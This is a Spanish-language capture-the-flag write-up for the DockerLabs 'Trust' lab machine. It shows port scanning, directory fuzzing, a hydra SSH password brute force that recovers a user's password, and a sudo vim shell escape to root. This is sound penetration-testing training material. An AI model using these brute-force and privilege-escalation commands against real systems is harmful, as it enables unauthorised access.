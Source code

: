# Write Up Trust

**Dificultad:** Super fáil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh trust.tar
[sudo] contraseña para godack: 

	                   ##        .         
	             ## ## ##       ==         
	          ## ## ## ##      ===         
	      /""""""""""""""""\___/ ===       
	 ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	      \______ o          __/           
	        \    \        __/            
	         \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
				    

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir trust-dockerlabs
❯ cd trust-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  content
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  exploits
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  nmap
drwxrwxr-x godack godack 4.0 KB Sun Aug 17 10:41:42 2025  scripts
```
## Reconocimiento
Una vez conocemos la dirección ip, realizamos un escaneo general para descubrir los puertos abiertos de una forma sigilosa y rápida.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:46 CEST
Initiating ARP Ping Scan at 10:46
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 10:46, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:46
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 10:46, 2.88s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.000024s latency).
Scanned at 2025-08-17 10:46:09 CEST for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Así descubrimos que los puertos abiertos son el puerto ssh (puerto 22) y el puerto http (puerto 80). De esta manera, con la utilidad extract ports los copiamos en el clipboard y realizamos un reconocimiento de los puertos mas exhaustivo, para descubrir el servicio que se está corriendo en dichos puertos y sus respectivas versiones

```
❯ extractPorts allPorts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 172.18.0.2
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nmap -sCV -p22,80 172.18.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 10:49 CEST
Nmap scan report for 172.18.0.2
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```
## Explotación
Viendo que está corriendo un servicio web y el servicio ssh, lo primero que haremos será recolectar información de la página web, para posteriormente acceder por ssh. Para ello añadiremos una entrada a nuestro DNS local (/etc/hosts) con el nombre de la máquina (trust) y su ip.
```
❯ sudo vi /etc/hosts
[sudo] contraseña para godack: 
❯ cat /etc/hosts
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 127.0.0.1   localhost
   2   │ 127.0.1.1   kali
   3   │ 
   4   │ 172.18.0.2  trust
   5   │ 
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Al acceder a la web vemos que es la web por defecto de Apache Server, y que no tiene mucha información, por lo que vamos a intentar listar todos los directorios de la web mediante un ataque de fuzzing con gobuster.

```
❯ gobuster dir -u http://trust/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://trust/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 270]
/.html                (Status: 403) [Size: 270]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.html                (Status: 403) [Size: 270]
/.php                 (Status: 403) [Size: 270]
/server-status        (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 270]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.php.bak (Status: 403) [Size: 270]
Progress: 6369160 / 6369165 (100.00%)
===============================================================
Finished
===============================================================
```

De esta manera vemos un directorio escondido llamado secret, con extension php, que al abrirlo muestra lo siguiente:

```
Hola Mario,

Esta web no se puede hackear.
```
![alt text](../.sources/Trust-secret.png)
Así que suponemos que un posible usuario puede ser Mario.
Como no tenemos mas información, lo único que podemos hacer (o al menos lo único que se me ocurre) es hacer un ataque de fuerza bruta sobre el puerto SSH (puerto 22) mediante *hydra*, para intentar obtener las credenciales de este posible usuario.

```
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://trust
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-18 20:05:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://trust:22/
[22][ssh] host: trust   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-18 20:05:51
```

Y así obtenemos la contraseña *chocolate*.

## Escalada de privilegios
Una vez dentro, hacemos el tratamiento de terminal para poder operar con comodidad

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Y ahora, vemos que está instalado el comando *sudo*, por lo que vemos que comandos podemos ejecutar como sudo.

```
mario@f29b3bbef1a5:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on f29b3bbef1a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f29b3bbef1a5:
    (ALL) /usr/bin/vim
```

Así que nos otorgamos una terminal como root y bingo!

```
mario@f29b3bbef1a5:~$ sudo vim -c ':!/bin/bash'

root@f29b3bbef1a5:/home/mario# whoami
root
root@f29b3bbef1a5:/home/mario# 
```
